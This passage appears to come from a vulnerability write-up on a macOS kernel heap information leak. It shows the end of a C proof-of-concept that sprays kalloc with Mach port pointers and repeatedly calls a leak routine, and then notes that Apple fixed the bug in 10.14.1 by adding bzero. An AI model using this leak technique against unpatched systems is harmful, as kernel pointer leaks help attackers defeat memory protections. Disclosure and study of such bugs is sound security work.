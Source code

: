 ```
        }
    }
    
    return leak;
}

int main()
{
    int n_guesses = 0x1100;
    int leak_count = 0;
    
    for (int i = 1; i < n_guesses+1; i++) {
        printf("try id: %d\n", i);
        mach_port_t q = fill_kalloc_with_port_pointer(mach_task_self(), i, MACH_MSG_TYPE_COPY_SEND);
        mach_port_destroy(mach_task_self(), q);
        
        if (try_leak() == true)
            leak_count ++;
        
        if(leak_count > 5)
            break;
    }
    
    return 0;
}

```

PoC binary is also provided, see attched files.

# how did Apple fix this?
In 10.14.1, Apple added calling bzero.  
![heap_free_fix](/images/res/heap_leak.png)  
